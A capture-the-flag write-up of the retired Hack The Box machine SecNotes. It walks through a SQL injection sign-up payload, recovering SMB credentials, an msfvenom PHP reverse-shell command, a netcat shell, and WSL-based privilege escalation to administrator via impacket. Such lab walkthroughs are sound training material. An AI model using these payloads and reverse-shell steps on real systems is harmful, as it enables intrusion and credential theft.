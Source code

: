 ```yaml
---
title: SecNotes Hackthebox Writeup
date: 2020-12-19 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,systeminfo,wsl,linux subsystem,smb,smb enumeration,smbclient,php]     # TAG names should always be lowercase
image: /assets/img/secnotes-hackthebox/secnotes-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@SecNotes:~$


Column | Details
------------ | -------------
Name | SecNotes
IP | 10.10.10.97
Points | 30
Os | Windows
Difficult | Medium
Creator | [0xdf](https://www.hackthebox.eu/home/users/profile/4935)
Out on | 25th August 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Signing up with a `SQL` payload and then `loging in`, on port 80.
* Getting user credentials for `SMB login`.
* Uploading a `php` shell and `nc.exe` to get a reverse connection back.
* Exploiting `WSL` for **Privilege Escalation**, getting `Admin` SMB credentials and loging into the windows machine.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/secnotes-hackthebox/all-port-scan-01.png)

Basically `3 Ports` are open. i.e. `80,445,8808`. Let's access port `80`, which shows a `Login Page`.

___
![](/assets/img/secnotes-hackthebox/login-page-3.png)

Before that we need to `Sign Up`.

___
![](/assets/img/secnotes-hackthebox/register-page-4.png)

Register on the page as *Username*: `test` and *Password*: `testtest`.

___
![](/assets/img/secnotes-hackthebox/after-logging-in-5.png)

I moved through the website for a bit and even tried `gobuster` for directory searching but nothing worked.

After that I tried to log into the SMB port i.e. 445 using `smbclient`, but it also failed.

___
![](/assets/img/secnotes-hackthebox/smbclient-login-fail-7.png)

Now I changed my approach and signed up using a `SQL Payload`.

**Payload** : *' or 1=1 #*

___
![](/assets/img/secnotes-hackthebox/using-sql-payload-9.png)

Now loging in back with new credentials i.e *Username*: `' or 1=1 #` and *Password*: `' or 1=1 #`.

___
![](/assets/img/secnotes-hackthebox/smb-username-password-10.png)

After loging in, we saw the credentials which looked like for `SMB Login`.

**Username**: `tyler`  and **Password**: `92g!mA8BGjOirkL%OG*&`.

Let's login into SMB using `smbclient`.

___
![](/assets/img/secnotes-hackthebox/smbclient-login-11.png)

Checking `new-site` in SMB.

___
![](/assets/img/secnotes-hackthebox/loggedin-new-site-12.png)

new-site is not which is hosted on `port 80`, then I realised that `port 8808` is also open and it shows an `IIS Server` running.

Trying to upload a `test.html` via SMB and access it on `http://10.10.10.97:8808/test.html`.

___
![](/assets/img/secnotes-hackthebox/checking-test-html-14.png)

Now Let's try to upload a `PHP shell` and get a reverse connection.

I used `msfvenom` to create a shell and transfered it via `SMB`.

**Command** : *msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php*

___
![](/assets/img/secnotes-hackthebox/msfvenom-php-final-reverseshell-17.png)

The above method didn't work because my shell was breaking again and again.

I changed the payload and got it working by using `nc.exe`, which I had transfered via `SMB`.

**New Payload** :
___
![](/assets/img/secnotes-hackthebox/new-small-revershell-php-18.png)

**Payload** and **nc.exe** successfully transfered.

___
![](/assets/img/secnotes-hackthebox/new-smb-nc-small-shell-20.png)

Listening on `nc` on my machine and accessing `http://10.10.10.97:8808/small-shell.php`, we got a shell.

___
![](/assets/img/secnotes-hackthebox/new-got-shell-21.png)

Got `User-Flag`.

For `Privilege Escalation`, I has looking through the directories and found a direcotry named `Ubuntu`. As soon as I saw this, I thought that something might be related to `WSL Exploitation`.

Check for [WSL walkaround](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl).

Finding `bash.exe`: *where /R c:\windows bash.exe* and `wsl.exe`: *where /R c:\windows wsl.exe*.

After that we could have run either `bash.exe` or `wsl.exe`, I ran **wsl.exe**.

We Entered a `Linux Subsystem` as **root**.

[Stabling the shell](https://netsec.ws/?p=337), **Command**: *Python -c 'import pty; pty.spawn("/bin/sh")'*

![](/assets/img/secnotes-hackthebox/new-running-wsl-exe-26.png)

In `root` directory, I found a file called `.bash_history`, which displayed the `admininstrator` credentials of the windows machine for SMB.

**Username**: `administrator` and **Password**: `u6!4ZwgwOM#^OBf#Nwnh`

___
![](/assets/img/secnotes-hackthebox/got-smb-user-credentials-27.png)

Now loging into the machine using `smbexec.py` which can be found in `impacket`.

Download link: [Imapcket](https://github.com/SecureAuthCorp/impacket/tree/master/examples)

___
![](/assets/img/secnotes-hackthebox/impacket-root-28.png)

Got `Root`.